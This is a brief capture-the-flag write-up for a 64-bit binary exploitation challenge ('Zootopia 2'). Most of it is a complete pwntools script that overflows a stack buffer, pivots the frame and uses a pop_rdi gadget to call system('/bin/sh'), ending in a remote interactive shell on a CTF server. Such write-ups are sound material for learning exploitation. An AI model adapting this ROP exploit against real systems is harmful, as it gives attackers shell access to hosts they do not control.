 This is pretty much the same as [Zootopia 1](#zootopia1), only difference is that the binary is x86-64 instead of x86.

![](/assets/images/posts/2022-04-17-18-04-13.png)

The string address when calling `system` must now be in rdi instead of on the stack, so we need a pop_rdi gadget.

![](/assets/images/posts/2022-04-17-18-05-53.png)

We need to change some addresses and update values from 32 to 64 bits.

```py
from pwn import *

#sh = process('./zootopia')
sh = remote('ctf-13.security.cs.pub.ro', 34317)

OFFSET_STACK = 0x98

system = 0x40088a #0x8048490
vuln_function = 0x4008ea # 0x8048712

pop_rdi = 0x402113
new_ebp = 0x640000

payload = b'/bin/sh\x00'
payload += b'A' * (OFFSET_STACK - len(payload) - 8)
payload += p64(new_ebp)
payload += p64(vuln_function)

sh.sendline(payload)

payload = b'/bin/sh\x00'
payload += b'A' * (OFFSET_STACK - len(payload))
payload += p64(pop_rdi)
payload += p64(new_ebp+0x20)
payload += p64(system)

payload += b'/bin/sh\x00'

"""
context.terminal = ['tmux','splitw','-h']
gdb.attach(sh, '''
break *0x400934
continue
''')
"""

sh.sendline(payload)

sh.interactive()
```
